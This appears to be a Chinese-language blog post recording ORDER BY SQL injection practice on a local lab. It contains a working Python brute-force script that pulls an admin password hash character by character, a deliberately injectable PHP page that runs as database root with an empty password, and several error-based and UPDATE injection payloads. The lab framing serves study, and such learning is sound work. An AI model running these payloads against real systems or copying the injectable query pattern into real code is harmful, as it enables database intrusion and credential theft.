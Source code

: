 ```yaml
---
title: order by injection
author: tank96a
layout: post
categories:
  - article
tags:
  - sqli
  - python
---
```


 本地搭建测试系统进行注入实践，包含php网页脚本、mysql数据库脚本、python爆破脚本。
 
 {% raw %}
<pre>
order by 字段1,字段2 DESC  字段1是排序第一关键字，默认为升序;字段2是排序第二关键字,这里指定为降序
order by apples,IF(1,bananas,cherries) desc
order by apples,(case when 1 then bananas else cherries end) desc

ASCII(SUBSTRING((SELECT password FROM fruits WHERE username = 0x41646d696e),1,1))=0x30
</pre>
{% endraw %}

python爆破脚本，用到了requests模块，必须在linux下运行。
{% highlight python %}
import requests,string
charset = 'abcdef'+string.digits 
AdminHash=''
url = 'http://192.168.1.101/DebugPHP/3.php'  
for i in range(33):
    for c in  charset:  
        payload="?by=3,(CASE WHEN (SELECT SUBSTRING(password,%d,1) FROM fruits where username=0x41646d696e)='%c' +\
                 THEN username ELSE password END) --" %(i, c)
        res = requests.get(url+payload)
        if "21</td><td>System" in res.text:
            AdminHash+=c
            break
print AdminHash  #e10adc3949ba59abbe56e057f20f894e
{% endhighlight %}

php本地注入测试脚本
{% highlight php %}
<?php
function mysql_fetch_all($result)
{
	$rows=array();
	while($row=mysql_fetch_array($result)){
		array_push($rows,$row);
	}
	return $rows;
}
$host = '192.168.1.103';
$dbuser ='root';
$dbpass ='';
$dbname ="security";
$tbname = "fruits";

$con = mysql_connect($host,$dbuser,$dbpass);
if (!$con) echo "Failed to connect to MySQL: " . mysql_error();
mysql_select_db($dbname,$con) or die ( "Unable to connect to the table: $dbname".mysql_error());

$orderby=$_GET['by'];
$sql="SELECT * FROM fruits ORDER BY $orderby LIMIT 10";
$result = mysql_query($sql);
$rows=mysql_fetch_all($result);
 
echo '<table>'.PHP_EOL;
$i = 1;
foreach ($rows as $row)     
{
	//print_r($row);
	echo sprintf('<tr>');
	echo sprintf('<td align="left">%d</td>', $i++);
	echo sprintf('<td>%s</td>', $row['username']);
	echo sprintf('<td>%s</td>', $row['apples']);
	echo sprintf('<td>%s</td>', $row['bananas']);
	echo sprintf('<td>%s</td></tr>', $row['cherries']);
}
echo '</table>'.PHP_EOL;
mysql_close($con);
?>
{% endhighlight %}

mysql数据库脚本
{% raw %}
<pre>
mysql> show databases;
mysql> source /root/Desktop/junk2/test.sql 导入数据
mysql> show tables;
mysql> desc fruits;
+----------+------------------+------+-----+---------+-------+
| Field    | Type             | Null | Key | Default | Extra |
+----------+------------------+------+-----+---------+-------+
| username | varchar(32)      | NO   | PRI |         |       |
| password | char(32)         | YES  |     | NULL    |       |
| apples   | int(10) unsigned | YES  |     | 0       |       |
| bananas  | int(10) unsigned | YES  |     | 0       |       |
| cherries | int(10) unsigned | YES  |     | 0       |       |
+----------+------------------+------+-----+---------+-------+

/*test.sql script*/
use security;
CREATE TABLE IF NOT EXISTS fruits(
username VARCHAR(32) CHARACTER SET ascii COLLATE ascii_general_ci,
password CHAR(32) CHARACTER SET ascii COLLATE ascii_bin,
apples   INT(10) UNSIGNED DEFAULT 0,
bananas  INT(10) UNSIGNED DEFAULT 0,
cherries INT(10) UNSIGNED DEFAULT 0,PRIMARY KEY(username)
);
insert into fruits values ('Horst1','e10adc3949ba59abbe56e057f20f883e',1,1,1);
insert into fruits values ('Harald1','e10adc3949ba59abbe56e057f20f884e',1,1,1);
insert into fruits values ('Horst','e10adc3949ba59abbe56e057f20f885e',1,5,3);
insert into fruits values ('Peter1','e10adc3949ba59abbe56e057f20f886e',1,1,1);
insert into fruits values ('Harald2','e10adc3949ba59abbe56e057f20f887e',2,2,2);
insert into fruits values ('Horst2','e10adc3949ba59abbe56e057f20f888e',2,2,2);
insert into fruits values ('Peter2','e10adc3949ba59abbe56e057f20f889e',2,2,2);
insert into fruits values ('Peter','e10adc3949ba59abbe56e057f20f890e',2,3,5);
insert into fruits values ('Aaron','e10adc3949ba59abbe56e057f20f891e',2,3,4);
insert into fruits values ('Peter3','e10adc3949ba59abbe56e057f20f892e',3,3,3);
insert into fruits values ('Harald3','e10adc3949ba59abbe56e057f20f893e',3,3,3);
insert into fruits values ('Admin','e10adc3949ba59abbe56e057f20f894e',3,2,4);
insert into fruits values ('Horst3','e10adc3949ba59abbe56e057f20f895e',3,3,3);
insert into fruits values ('Horst4','e10adc3949ba59abbe56e057f20f896e',4,4,4);
insert into fruits values ('Harald4','e10adc3949ba59abbe56e057f20f897e',4,4,4);
insert into fruits values ('Peter4','e10adc3949ba59abbe56e057f20f898e',4,4,4);
insert into fruits values ('Harald','e10adc3949ba59abbe56e057f20f899e',4,4,1);
insert into fruits values ('System','e10adc3949ba59abbe56e057f20f900e',5,1,2);
insert into fruits values ('Horst5','e10adc3949ba59abbe56e057f20f901e',5,5,5);
insert into fruits values ('Peter5','e10adc3949ba59abbe56e057f20f902e',5,5,5);
insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
</pre>
{% endraw %}


其他注入知识点：
{% raw %}
<pre>
mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'

update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';

''=(payload)=''
' or (payload) or '
' and (payload) and '
' or (payload) and '
' or (payload) and '='
'*  (payload)  *'
' or (payload) and '
" – (payload) – "

mysql常用命令：
select hex('Admin');  /*41646D696E*/
select concat(0x41646d696e);  /*Admin*/

Create database newdb;
use newdb;
CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
desc users;  查看表的结构
insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
</pre>
{% endraw %}

经典文章：[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)

[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
